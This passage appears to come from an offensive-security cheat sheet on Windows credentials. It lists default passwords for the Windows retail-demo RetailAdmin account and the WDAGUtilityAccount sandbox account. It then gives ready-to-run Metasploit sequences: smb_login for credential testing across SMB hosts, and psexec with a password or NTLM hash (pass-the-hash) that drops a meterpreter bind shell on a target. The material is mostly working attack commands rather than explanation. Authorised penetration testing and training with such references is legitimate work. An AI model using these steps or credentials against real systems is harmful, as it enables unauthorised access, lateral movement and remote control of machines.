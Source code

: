 ### TIP 2 - Retail Credential 

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

### TIP 3 - Sandbox Credential - WDAGUtilityAccount

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit

### Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN  
set SMBUser username
set SMBPass password
services -p 445 -R  
run
creds
```

### Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser username
set SMBPass password
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```
